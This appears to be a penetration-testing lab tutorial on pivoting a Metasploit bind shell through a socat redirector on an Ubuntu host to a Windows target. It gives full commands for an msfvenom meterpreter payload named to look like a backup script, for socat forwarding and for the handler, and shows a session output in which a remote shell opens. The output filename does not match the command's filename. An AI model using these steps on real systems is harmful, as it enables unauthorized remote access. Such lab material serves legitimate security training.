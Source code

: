 # Socat Redirection with a Bind Shell

Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. The below figure should explain the pivot in a much better way.

<figure><img src="../../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

We can create a bind shell using msfvenom with the below command.

### **Creating the Windows Payload**

```shell-session
$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

### **Starting Socat Bind Shell Listener**

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

### **Configuring & Starting the Bind multi/handler**

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.

### **Establishing Meterpreter Session**

```shell-session
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```
